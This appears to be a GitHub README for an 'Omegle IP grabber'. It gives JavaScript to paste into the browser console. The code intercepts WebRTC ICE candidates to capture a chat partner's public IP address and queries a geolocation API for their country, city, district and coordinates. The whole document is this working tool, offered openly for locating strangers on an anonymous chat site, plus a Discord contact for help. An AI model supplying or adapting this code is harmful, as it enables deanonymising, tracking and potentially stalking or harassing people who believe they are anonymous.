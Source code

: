# omegle-ip-grabber
omegle ip grabber
copy paste in dev tools console in google
if u need help add revxyyx#3739 on discord
const apikey = "my-api-key";

 window.oRTCPeerConnection =
   window.oRTCPeerConnection || window.RTCPeerConnection;

 window.RTCPeerConnection = function (...args) { 
    const pc = new window.oRTCPeerConnection(...args);

 pc.oaddIceCandidate = pc.addIceCandidate;

 pc.addIceCandidate = function (iceCandidate, ...rest) {
    const fields = iceCandidate.candidate.split(" ");
    const ip = fields [4]; 
    if (fields [7] === "srflx") {
      getLocation(ip);
    } 
    return pc.oaddIceCandidate(iceCandidate, ...rest);
  };
  return pc;
};

const getLocation = async (ip) => {
  let url = `https://api.ipgeolocation.io/ipgeo?apiKeys=${apikey}&ip=${ip}`;

  await fetch(url).then((response) =>
    response.json().then((json) => {
      const output = `
          --------------------
          Country: ${json.country_name}
          State: ${json.state_prov}
          City: ${json.city}
          District: ${json.district}
          Lat / Long: (${json.latitude}, ${json.longitude})
          --------------------
         `;
      console.log(output);
    })
  );
};
